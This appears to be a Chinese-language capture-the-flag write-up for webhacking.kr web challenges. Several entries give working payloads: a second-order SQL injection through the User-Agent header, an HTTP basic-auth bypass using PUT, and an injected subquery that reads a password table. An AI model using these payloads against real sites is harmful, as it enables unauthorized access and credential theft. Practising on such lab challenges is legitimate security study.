 # WebHacking

-   Online Link: [WebHacking](http://webhacking.kr/challenge/)

## challange-01

## challange-02

-   检查`index.php`源码，发现`<area shape="rect" coords="851,7,890,65" href="admin/" target="" alt="" />·`
-   访问`/admin`，需要login

## challange-03

-   `http://webhacking.kr/challenge/web/web-03/index.php?_1=1&_2=0&_3=1&_4=0&_5=1&_6=0&_7=0&_8=0&_9=0&_10=0&_11=0&_12=1&_13=1&_14=1&_15=0&_16=0&_17=1&_18=0&_19=1&_20=0&_21=1&_22=1&_23=1&_24=1&_25=1&_answer=1010100000011100101011111`

    > 管理页面
    > 注意事项
    > 要小心，不要管理员密码被泄露。
    > 请参考您正在使用它的第一次手动分钟。（手动密码：@ dM1n\_\_nnanual）

## challange-08

-   二次注入，需要掌握整个流程
    -   [源码分析](./web_08/index.php)
    -   注入点 `$q=@mysql_query("insert into lv0(agent,ip,id) values('$agent','$ip','guest')") or die("query error");`
    -   此处 agent 是可控的，而且没有针对 ''', ',', '#' 进行防护
-   第一次：`admin','1','admin')#` -> `USER-AGENT done! (0/70)`
-   第二次：`admin` -> `USER-AGENT hi admin`

## challange-09

-   Basic access authentication(HTTP 基本认证)
    -   本题针对 GET 以及 POST 方法进行了基本认证，而忽略了PUT方法，由此绕过
-   `substr(id,1,1)in(0x42,0x41)`

## challange-10

-   [查看源码](./web_10/code1.html)，其中关键代码
    ```html
    <a id=hackme style="position:relative;left:0;top:0" onclick="this.style.posLeft+=1;if(this.style.posLeft==800)this.href='?go='+this.style.posLeft" onmouseover=this.innerHTML='yOu' onmouseout=this.innerHTML='O'>O</a>
    ```
-   可知需要访问`?go=800`

## challange-13

> HINT : select flag from prob13password

## challange-29

-   `1467781839',(select password from c29_tb),char(50, 48, 50, 46, 49, 50, 48, 46, 51, 54, 46, 49, 55, 57`
